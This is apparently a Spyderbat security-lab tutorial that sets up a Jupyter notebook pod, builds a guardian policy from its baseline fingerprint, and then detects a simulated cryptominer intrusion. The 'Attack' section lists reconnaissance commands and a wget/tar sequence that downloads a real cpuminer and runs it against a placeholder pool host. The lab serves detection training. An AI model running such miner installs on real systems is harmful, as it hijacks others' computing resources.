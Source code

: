 # Introduction to Policies — Cryptominer Attack

> This Scenario is loosely based on the [Silent Bob container attack](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed).

## Setup

For this scenario, we have set up an unguarded Jupyter Notebook pod within the cluster. To start, let's see it in use, and create some "normal" activity that we will use later to generate a baseline fingerprint. After running the access script (`./scripts/access.sh`), you can reach the notebook from <a href="http://localhost:1234" target="_blank">localhost:1234</a>.

This is a standard Jupyter notebook, running the `jupyter/minimal-notebook` docker image. Select the Python 3 notebook, and run some commands in it.

> **Tip:**
> 
> Use the play button or the keyboard shortcut Ctrl-Enter to run code within a code block in the Jupyter Notebook.

```py
print("Hello world!")
```

```sh
!pip install --upgrade pip setuptools wheel
```

Spyderbat is using the activity we just created to define a "fingerprint" for this container. A container fingerprint tracks all of the processes and connections created in a container during normal operation and can be used to define [Guardian Policies](https://docs.spyderbat.com/concepts/guardian). These policies are used by Spyderbat to detect when anomalous activity occurs, either alerting you or even killing the pod in response, depending on the configuration.

Let's take a look at these fingerprints in the Spyderbat UI. Navigate to the Fingerprints page (listed under Guardian in the navigation sidebar). This page lists all of the fingerprints created by Spyderbat for your account, one for each image you have deployed. Using the search bar in the top right, search for "Jupyter" to narrow down the list. To narrow the scope further, we can select the "cryptominer" namespace and "active" status. From there, select the fingerprints that we want (the `minimal-notebook` image), and click "Create Policy" on the bottom bar.

This will open the Policy creation window, allowing you to preview the policy created from the selected fingerprints. If necessary, you could edit the processes and connections that were autogenerated here. For our purposes, the autogenerated data should be good enough, so select "Next". Give the policy a name, but leave it in audit mode for now. Audit mode means the policy will be tracked, but will not actually create any responses, allowing for testing.

![The policy creation screen](./policy_creation.png)

Let's test out the policy by running a new command that is not present in the policy. Navigate back to the Jupyter Notebook interface and open a new "terminal" tab instead of Python. This alone should be enough to be detected, but let's run `ls` just to make sure we have something to look for. It will take a minute or two for the data to appear in the console, but we can navigate to the Guardian Policies page while we are waiting.

This page shows all of the existing (container) policies in your account. Select "View" on the new policy to open the Policy management window. Here, you can see the existing policy as well as all of the detected deviations. It also allows for editing the policy, such as setting it to enforce mode or adding new processes and connections to the policy.

Navigate to the "Deviations" tab. If you do not already see a list of deviations, refresh the page to ensure you have the latest data. After selecting all of the deviations, your policy graph should look similar to the one below.

![The created policy, and our new deviations](./policy_graph.png)

Now that we know the policy works, let's put it in enforce mode. De-select the deviant processes, switch to the "Policy Info" tab, select "Enforcing", and click Save. Since we left the default actions enabled, this policy will not kill deviant pods, only create red flags for deviant processes and connections.

## Attack

Next, let's simulate a malicious use of the Jupyter Notebook. Switch back to the Jupyter Notebook terminal, and run some exploration commands:

```
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ id
uid=1000(jovyan) gid=100(users) groups=100(users)
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ sudo -l
[sudo] password for jovyan: 
Sorry, try again.
[sudo] password for jovyan:^C 
sudo: 1 incorrect password attempt
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ ping -n 3 sourceforge.net
bash: ping: command not found
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ curl sourceforge.net > /dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ 
```

Looks like we don't have sudo access, there aren't many tools (like ping), but we can connect to SourceForge. Luckily, that is all we need to install a crypto miner. First, we can check that there aren't already any crypto miners installed on this system (given how poor the security would be if this were truly deployed):

```sh
ps -aux
```

Looks like we are alone. So, we can now install the miner:

```sh
wget https://sourceforge.net/projects/cpuminer/files/pooler-cpuminer-2.5.1-linux-x86_64.tar.gz/download
tar -xzf download
./minerd --url fakeminingpool.example.com -u ME -p passwd
```

> Note: this is a real cryptominer, but is not configured to connect to a real service.

## Investigation

Now that we have executed the attack, let's go back to the policy deviations page. Select "View" on the policy, and add all of the deviations to the graph. Here, we can see all of the different commands and connections that did not fit into the existing fingerprint. 

![The new policy deviations](./attack_deviations.png)

Select "Start Process Investigation" on the bottom to see a more detailed view of the tracked deviations. Here, we can see a causal view of all of our attack actions within the container.

![A trace showing the executed attack](./attack_trace.png)

## Cleanup

To ensure that the flags generated by this policy don't interfere with the other demos, let's disable the Guardian policy. Navigate back to the Policies page, and view the policy. Turn off the "Enabled" switch in the Policy Info tab, and save the policy.

## Further Reading

- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)
- ['Silent Bob' Container Attack Exposed - Spyderbat Blog](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed)
